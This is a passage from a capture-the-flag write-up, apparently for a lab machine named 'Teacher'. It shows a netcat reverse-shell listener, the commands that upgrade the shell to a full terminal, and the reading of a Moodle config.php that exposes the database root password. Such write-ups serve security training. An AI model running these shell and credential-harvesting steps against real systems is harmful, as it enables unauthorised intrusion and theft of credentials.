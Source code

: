 ```

$ python -c 'import pty;pty.spawn("bash")'
www-data@teacher:/var/www/html/moodle/question$ 
[1]+  Stopped                 rlwrap nc -lnvp 443
root@kali# stty raw -echo
root@kali# rlwrap nc -lnvp 443
www-data@teacher:/var/www/html/moodle/question$ reset
reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@teacher:/var/www$ export TERM=screen

```

Now I’ve got a shell with tab completion and arrow keys.

## Privesc: www-data -> giovanni

### Find Database Password

In the website code I’ll find the database info for Moodle:

```

www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://10.10.10.153/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!

```
